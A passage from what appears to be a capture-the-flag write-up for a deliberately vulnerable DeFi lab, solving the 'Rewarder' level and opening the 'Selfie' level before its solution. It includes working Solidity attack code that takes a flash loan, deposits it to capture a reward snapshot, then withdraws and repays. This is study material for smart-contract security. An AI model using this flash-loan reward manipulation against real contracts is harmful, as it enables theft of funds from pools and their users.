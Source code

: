Also, this happens at round 3: `assertEq(rewarderPool.roundNumber(), 3)`.

### Solution

Round number will change at `_recordSnapshot()` (provided the 5 days have passed from last round), and this function only gets triggered at the constructor and `distributeRewards()`.

We can leverage a flash loan of the accounting token to get all the funds we can, deposit them into the pool, trigger `distributeRewards()` to increase the round number, and withdrawing the funds after we get the reward.

```solidity
function attack() public {
  // borrow all the DVT you can get
  // the flow continues at receiveFlashLoan()
  flashLoanPool.flashLoan(liquidityToken.balanceOf(address(flashLoanPool)));

  // give the reward to the player, to beat the level
  rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
}

function receiveFlashLoan(uint256 amount) public {
  // deposit the DVT into the rewarderPool
  liquidityToken.approve(address(rewarderPool), amount);
  rewarderPool.deposit(amount);

  // trigger this to get rewards, and increment the round number
  rewarderPool.distributeRewards();

  // got the rewards, get the DVT back
  rewarderPool.withdraw(amount);

  // pay back the flash loan
  liquidityToken.transfer(msg.sender, amount);
}
```

### References

* https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC20Snapshot

## 06 Selfie

To beat this level, we need to comply with

```solidity
assertEq(token.balanceOf(msg.sender), TOKENS_IN_POOL);
assertEq(token.balanceOf(address(pool)), 0);
```

In other words: Drain the pool, get all the funds.

### Solution
